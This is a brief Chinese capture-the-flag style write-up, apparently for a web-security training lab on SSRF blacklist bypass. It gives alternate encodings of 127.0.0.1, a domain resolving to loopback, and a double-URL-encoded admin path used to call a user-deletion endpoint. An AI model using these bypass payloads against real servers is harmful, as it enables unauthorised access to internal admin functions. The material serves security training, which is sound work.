



黑名单过滤了：

127.0.0.1 和localhost


1. 可以使用代替ip进行绕过：

```javascript
例如2130706433，017700000001，或127.1
```


2. 注册域名，解析为127.0.0.1

burp提供的spoofed.burpcollaborator.net即可解析为127.0.0.1




访问：http://spoofed.burpcollaborator.net




访问：/admin，发现admin在黑名单中，这里可以采用大小写和url编码绕过（这里需要进行两次编码，因为bp发出时进行了一次解码，服务器再发出时又进行了一次解码）



发现用户删除链接，访问http://spoofed.burpcollaborator.net/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65//admin/delete?username=carlos即可删除